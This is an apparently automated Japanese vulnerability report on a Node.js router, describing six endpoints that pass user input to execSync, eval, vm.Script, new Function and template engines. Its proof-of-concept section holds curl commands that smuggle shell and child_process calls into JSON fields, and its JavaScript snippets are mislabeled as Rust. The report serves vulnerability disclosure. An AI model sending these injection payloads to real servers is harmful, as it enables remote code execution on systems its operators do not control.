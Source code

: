 # 解析レポート

![中高信頼度](https://img.shields.io/badge/信頼度-中高-orange) **信頼度スコア: 80**

## 脆弱性タイプ

- `RCE`

## 解析結果

本ルーターには複数のエンドポイントでユーザー入力をそのまま危険な関数／機能に渡しており、リモートコード実行（RCE）を許す重大な脆弱性が存在します。具体的には：

1. /system-exec: execSyncに未検証のコマンド文字列を渡しており、任意のシステムコマンドが実行可能。
2. /calculate: evalによる計算式評価で任意コード実行。
3. /execute-script: vm.Scriptでユーザー提供スクリプトをそのまま実行。
4. /create-function: new Functionにユーザー実装を直接渡して実行。
5. /render/email: EJS.renderにユーザーテンプレートを渡し、テンプレート内で任意JSが動作可能。
6. /render/handlebars: Handlebars.compileに未検証のテンプレートを渡しており、拡張子やカスタムヘルパーを利用したテンプレートインジェクションが可能（理論上のRCEリスク）。

これらを悪用すると、サーバ上で任意のOSコマンド実行、プロセス停止、ファイル操作などが行われ、機密情報漏洩やサービス停止につながります。

## PoC（概念実証コード）

```text
1) system-exec RCE例
curl -X POST http://host/system-exec -d '{"operation":"ls; whoami > /tmp/pwned"}'

2) calculate RCE例
curl -X POST http://host/calculate -d '{"formula":"require(\"child_process\").execSync(\"id > /tmp/id.txt\")"}'

3) execute-script RCE例
curl -X POST http://host/execute-script -d '{"script":"require(\"fs\").writeFileSync(\"/tmp/hacked\",\"ok\");"}'

4) create-function RCE例
curl -X POST http://host/create-function -d '{"implementation":"require(\"child_process\").execSync(\"touch /tmp/fn_pwned\");"}'

5) EmailテンプレートRCE例
curl -X POST http://host/render/email -d '{"template":"<%= require(\"child_process\").execSync(\"id > /tmp/email.txt\") %>"}'
```

## 関連コードコンテキスト

### 関数名: /system-exec
- 理由: ユーザー入力を検証せずにexecSyncへ渡している
- パス: repo/routes/integration.js
```rust
const output = execSync(fullCommand, { encoding: 'utf8', timeout: 5000 });
```

### 関数名: /calculate
- 理由: ユーザー提供のformulaを直接evalしている
- パス: repo/routes/integration.js
```rust
const result = eval(formula);
```

### 関数名: /execute-script
- 理由: ユーザー提供のscriptをvmで実行している
- パス: repo/routes/integration.js
```rust
const vmScript = new vm.Script(`
            try {
                result = (function() {
                    ${script}
                })();
            } catch (e) {
                result = { error: e.message };
            }
        `);
```

### 関数名: /create-function
- 理由: ユーザーの実装コードをnew Functionで実行している
- パス: repo/routes/integration.js
```rust
const dynamicFunction = new Function(...(parameters || []), implementation);
```

### 関数名: /render/email
- 理由: EJSテンプレートに任意コードを埋め込んで実行できる
- パス: repo/routes/integration.js
```rust
const rendered = ejs.render(template, variables || {});
```

### 関数名: /render/handlebars
- 理由: Handlebarsのテンプレートをユーザー入力でコンパイルしている
- パス: repo/routes/integration.js
```rust
const compiledTemplate = handlebars.compile(content);
```

## 解析ノート

各エンドポイントでユーザー入力をそのまま危険な関数に渡している点を調査しました

